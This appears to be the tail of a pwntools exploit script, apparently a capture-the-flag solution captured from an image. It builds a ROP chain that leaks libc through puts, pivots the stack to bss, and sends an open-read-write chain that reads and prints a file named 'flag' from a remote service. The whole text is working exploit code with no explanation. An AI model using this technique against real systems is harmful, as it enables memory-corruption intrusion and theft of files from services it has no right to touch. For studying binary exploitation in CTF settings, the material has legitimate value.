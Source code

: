 ```

        p.sendafter("1:yes): ", (b"\x00" + str(0x100).encode()).ljust(8, b"\x00") + p64(0x4015AB))

        payload = p32(0xdeadbeef) + p32(0x4) + p64(0xdeadbeef) + p64(p_rdi_r) + p64(elf.got['puts']) + p64(elf.plt['puts'])
        payload += p64(p_rdi_r) + p64(bss) + p64(p_rsi_r15_r) + p64(0x300) + p64(0) + p64(read)
        payload += p64(p_rsp_r) + p64(bss)

        p.sendline(payload)

        libc.address = u64(p.recvline(timeout=1).strip().ljust(8, b"\x00")) - libc.sym['puts']
        log.success("libc address is `{``}`".format(hex(libc.address)))
        break
    except KeyboardInterrupt:
        exit(0)
    except:
        p.close()
        if debug:
            p = process([file_path])

        else:
            p = remote('172.20.5.31', 22423)

p_rdi_r = 0x0000000000026b72 + libc.address
p_rsi_r = 0x0000000000027529 + libc.address
p_rdx_r12_r = 0x000000000011c371 + libc.address
p_rax_r = 0x000000000004a550 + libc.address
syscall = 0x0000000000066229 + libc.address
ret_addr = 0x0000000000025679 + libc.address
flag_str_address = bss + 0x250

orw = flat([
    p_rax_r, 2,
    p_rdi_r, flag_str_address,
    p_rsi_r, 0,
    syscall,
    p_rax_r, 0,
    p_rdi_r, 3,
    p_rsi_r, flag_str_address,
    p_rdx_r12_r, 0x40, 0,
    syscall,
    p_rax_r, 1,
    p_rdi_r, 1,
    p_rsi_r, flag_str_address,
    p_rdx_r12_r, 0x40, 0,
    syscall
])

payload = p64(ret)*4 + orw.ljust(0x250, b"\x00") + b"flag\n"
p.send(payload)

p.interactive()
```
